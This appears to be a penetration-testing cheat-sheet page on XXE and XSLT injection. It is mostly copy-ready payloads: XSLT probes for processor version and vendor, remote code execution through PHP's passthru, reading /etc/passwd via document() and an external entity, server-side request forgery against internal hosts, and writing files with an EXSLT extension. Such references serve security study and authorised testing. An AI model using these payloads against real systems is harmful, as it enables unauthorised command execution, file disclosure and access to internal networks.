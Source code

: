 ```yaml
---
description: >-
  XXE (XML External Entity) is a way to read arbitrary files, and XSLT files are
  a way to format XML files - these files are susceptible to injection which
  results in a number of various exploits
icon: file-spreadsheet
---
```


# XXE & XSLT Injection

### Preparation

Firstly, we can inject some tags to get information about the system

```xml
<xsl:value-of select="system-property('xsl:version')" />
<xsl:value-of select="system-property('xsl:vendor')" />
<xsl:value-of select="system-property('xsl:vendor-url')" />
```

### RCE (Remote Code Execution)

One method of RCE available is when the backend is running PHP and has registerPHPfunctions enabled:

```xml
<xsl:value-of select="php:function('passthru', 'ls -al')" />
```

### LFR (Local File Read)

Reading local files can be accomplished with the `copy-of` operator:

```xml
<xsl:copy-of select="document('/etc/passwd')" />
```

### XXE

If we are able to control the XML data to be processed, we can inject some tags to get local file information:

```xml
// in our XML file:
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>

// in our XSLT file:
INFO &ext_file;:
```

### SSRF

```xml
<xsl:copy-of select="document('http://[internal ip]:[port]')"/>
```

### Writing to Files

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:exploit="http://exslt.org/common"
  extension-element-prefixes="exploit">
<xsl:template match="/">
    <exploit:document href="text.txt" method="text">
      testing
    </exploit:document>
</xsl:template>
</xsl:stylesheet>
```
